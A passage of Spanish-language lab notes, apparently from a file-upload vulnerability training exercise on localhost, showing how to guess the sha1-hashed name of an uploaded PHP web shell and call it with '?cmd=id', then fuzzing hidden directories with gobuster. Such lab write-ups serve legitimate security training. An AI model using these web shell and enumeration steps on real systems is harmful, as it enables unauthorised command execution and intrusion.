 
![Captura](./Imágenes/burpsuite_5.png)

Acción: para localizar los diferentes hashes que tenemos disponibles en nuestro sistema

```bash
locate \*sum
```

Resultado:

```bash
/usr/bin/md5sum
/usr/bin/sha1sum
/usr/bin/sha224sum
/usr/bin/sha256sum
/usr/bin/sha384sum
/usr/bin/sha512sum
/usr/bin/shasum
```

Acción:

```bash
echo -n "cmd" | sha1sum
echo -n "cmd.php" | sha1sum
sha1sum cmd.php
```

Resultado:

```bash
http://localhost:9001/upload35/uploads/17717d2bf6c721c49d517e7edad96d0750a17a4b.php?cmd=id 
```

Explicación: obviamente puede haber diferentes tipos de hashes, en este caso tiene 40 caracteres por lo es probable que sea *sha1sum*

---
## Fuzzing rutas ocultas

Acción:

```bash
gobuster dir -u http://localhost:9001/upload41/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100
```

Resultado:

```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 323] [--> http://localhost:9001/upload41/images/]
```

Explicación:  otras veces puede estar oculto y necesitamos fuzzearlo con herramientas como *gobuster, wfuzz o ffuf*

---